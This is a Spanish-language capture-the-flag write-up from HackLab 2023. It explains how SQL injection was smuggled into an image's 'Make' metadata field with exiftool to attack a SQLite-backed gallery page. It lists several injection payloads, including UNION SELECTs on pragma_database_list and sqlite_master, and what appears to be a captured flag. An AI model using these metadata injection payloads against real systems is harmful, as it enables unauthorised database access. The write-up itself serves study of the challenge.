






# Desafío 20 - Galería de imágenes (HackLab 2023)

Desafío 20 - Galería de imágenes (HackLab 2023) 
Primero tenemos que instalarnos exitfool desde exitfool.org  
Esta aplicación nos permite cambiar los metadatos de las imágenes. 
Como el desafío lee archivos de imagen, específicamente el fabricante (matedato = make), 
la lógica es cambiar el dato del fabricante en el metadato de la imagen para insertar código 
SQL que invada la página. 
Abrimos el cmd y nos ubicamos en la ruta dentro de la carpeta de exitfool. 
La lógica era: 
exitfool -Make="’ sentencia SQL" nombre.archivo 
 
El problema que tuvimos es que el motor era sqlite y no Mysql, por lo tanto nos tiraba 
muchos errores de sintaxis, sin embargo esto nos indicaba que la página estaba leyendo 
nuestra sentencia y podíamos meternos por ahí. 
Después de todos los intentos de diferentes sentencias. Llegamos a estas dos consultas 
que ambas son válidas: 
exitfool -Make="' ||  (SELECT file FROM pragma_database_list)) --" imagen.jpg 
exiftool -Make="') UNION SELECT 1, file FROM pragma_database_list -- " test.jpg 
 
3f8ca106a5118b3c418ec00907120d6a

Esto es lo primero que probé que no andaba muy bien

Despues llegue a probar esto pero no me pudo devolver el resultado 
 
exiftool -Make="') UNION SELECT 1, file, 3 FROM pragma_database_list -- " test.jpg

exiftool -Make="') UNION SELECT name, sql FROM sqlite_master -- " test.jpg 
 
exiftool -Make="') UNION SELECT sql, name FROM sqlite_master -- " test.jpg 
 
 
exiftool -Make="') UNION SELECT 1, name FROM images -- " test.jpg 
 
exiftool -Make="') UNION SELECT 1, group_concat(name) FROM sqlite_master -- " test.jpg

